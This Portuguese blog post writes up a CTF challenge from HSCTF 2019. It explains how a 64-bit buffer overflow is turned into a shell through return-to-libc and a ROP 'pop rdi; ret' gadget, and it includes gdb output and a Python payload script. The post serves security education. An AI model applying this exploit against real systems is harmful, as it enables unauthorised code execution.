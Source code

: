 ```yaml
---
layout: post
title: Combo Chain Lite - [HSCTF 2019] - Return to libc x64
date: 2019-06-12 18:22
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Não consigo me recordar da descrição desse desafio mas citava algo com ROP (Return Oriented Programming). O achei divertido porque me relembrou das diferenças entre explorar um binário 32bits e um 64.

Antes de tudo, uma analisada no código fonte:
<script src="https://gist.github.com/brerodrigues/305d2fbf300852c17ba8eeab38391e96.js"></script>

Tava na cara que a linha 10 da função *vuln* ia estourar o espaço reservado para a variável *dest* se alguém passasse mais de 8 chars quando *gets* pedisse input do usuário. Um clássico buffer overflow.

No gdb, não foi necessária muita mágica para descobrir o quanto de espaço era preciso para sobreescrever o endereço de retorno da função:

```
run <<< $(python -c 'print "A"*16 + "BBBB"')
```

16 A's e 4 B's resultaram nisso:

```
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
```

0x42, o programa tentou retornar para belos e maisculos B's.

Já desconfiava e tive certeza quando rodei o comando *checksec* e vi o bit NX setado. Nada de executar shellcode na stack dessa vez (o que não é SEMPRE impossível quando esse bit estiver setado, falo mais sobre isso um dia).

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Como visto no codigo fonte, o binário imprime o endereço de *system* a cada execução:

```
b@b ~/h> ./combo-chain-lite 
Here's your free computer: 0x7ffff7a33440
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: 
```

Com o endereço da função system e um argumento bem localizado na stack, a gente consegue fazer system executar o comando */bin/sh*. Não se preocupe, vou explicar isso melhor.

O binário ajuda novamente e tem exatamente essa string passeando na memória. Conseguimos encontra-la usando o comando *find "/bin/sh"* no peda. Mas antes é necessário executar o programa, por isso setei um breakpoint em main.

```
gdb-peda$ b *main
Breakpoint 1 at 0x4011bf
gdb-peda$ run
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
```

Ah, com o endereço de system e bin/sh achei que bastava fazer o que fiz no [level6 do narnia](https://brerodrigues.github.io/ctfs/favorites/level-6-return-to-libc-overthewire-ctf-narnia-write-up). Se você não faz ideia do que é Return Oriented Programming, recomendo que passe lá, explico com uma maior paciência os detalhes sórdidos.

```
b@b ~/h> file combo-chain-lite 
combo-chain-lite: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c56cc6916b1933494d1cc55ae82dcaf1cdf6693d, for GNU/Linux 3.2.0, not stripped
```

Mas não era tão simples quanto em narnia. A diferença é que o binário é um ELF 64-bits. 
Após erroneamente tentar explorar a falha jogando o endereço de /bin/sh na stack e chamando system, percebi minha viagem.

Na arquitetura 64 bits uma função não recebe, simplesmente, parâmetros via stack. Primeiro eles são passados usando os registradores. E não é de qualquer jeito, existe uma ordem:
1.  RDI
2.  RSI
3.  RDX
4.  RCX
5.  R8
6.  R9

E a stack só é utilizada se houver a necessidade de mais parâmetros.

Sabendo que system precisa apenas de um parâmetro, que é o comando que será executado, seria só questão de passar o endereço de /bin/sh para RDI e pwned. Como fazer isso? Return Oriented Programming.

Sem a possibilidade de executar nosso próprio código, ROP dá a ideia de usar o código disponível no binário (chamam esses pedaços de código de *gadgets*) para manipular a memória do programa e executar o que queremos. Minha primeira tentativa, usando uma técnica conhecida como *Return-to-libc*, nada mais é do que Return Oriented Programming. É uma explicação rasa, no final do post deixarei uns links que vão mais a fundo.

Voltando ao desafio: como mandar o endereço de /bin/sh para RDI? Era necessário executar uma instrução que pegasse esse endereço da stack, tipo POP RDI, e depois o programa teria que chamar system.

Não é qualquer POP RDI que posso usar porque depois de pular para essa instrução, a execução vai continuar nos endereços seguintes. Não adianta fazer um POP RDI e logo depois vir um CALL printf e etc porque foderia com minha stack e o programa ia dar crash e nunca daria uma shell. Aí que entra o conceito de gadgets: um gadget, normalmente, é uma instrução acompanhada de um RET, que é a instrução que vai pegar da stack o endereço da próxima instrução a ser executada. Logo, pegando gadgets, a gente pode inserir na stack os endereços um após o outro e o programa vai sair executando ordenadamente feliz da vida. 
Fica tipo assim na stack: gadget1->gadget2->gadget3... E a execução fica: gadget1: POP RDI, RET -> gadget2: POP RSI, RET -> gadget3: POP RDX, RET... 

Para encontrar instruções aptas para fazer essa mágica usei uma bela ferramente chamada [Ropper](https://github.com/sashs/Ropper). Ele automatiza essa busca.

Com o comando *./Ropper.py --file ../combo-chain-lite --search "% ?di"* recebo uma lista de gadgets que fazem operações com RDI ou EDI (por isso a "%?di" na busca). Vem uma caralhada de opções e em meio a elas encontro a perfeita:

```
0x0000000000401273: pop rdi; ret; 
```

Executando esse conjunto de instruções eu jogo algo da stack para RDI e retorno para a stack, onde vai ter o endereço da função system que irá ser chamada e achará em RDI o endereço de /bin/sh.

Meu exploit ficará alinhado na stack nessa ordem:
```
0x0000000000401273: pop rdi; ret; 
0x402051: /bin/sh
0x7ffff7a33440: system
```

Alterei minha rápida e nojenta PoC feita em python para formatar bonitinho os endereços e jogar num arquivo. Daí era só executar e passar como entrada para o binário e ganhar uma shell.

```
from struct import *

buf = ""
buf += "A"*16
buf += pack("<Q", 0x0000000000401273)       # pop rdi; ret;
buf += pack("<Q", 0x402051)                 # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a33440)           # address of system()

f = open("exploit", "w")
f.write(buf)
```

O segundo cat é para manter stdin aberta. Sem ele system chama /bin/sh e fecha logo depois.

```
$ (cat in.txt; cat) | ./combo-chain-lite 
Here's your free computer: 0x7ffff7a33440
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: 
uname -a
Linux b 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Para explorar no CTF fiz um scriptizinho mais bonito. Usando o pwntools e tudo. Facilitou na hora de pegar o endereço de system que o binário manda na primeira linha. Pode observar na linha 12.

<script src="https://gist.github.com/brerodrigues/793458dddfdf3a18336302a1313b94f1.js"></script>

Links:
1. https://ctf101.org/binary-exploitation/return-oriented-programming/
2. https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/
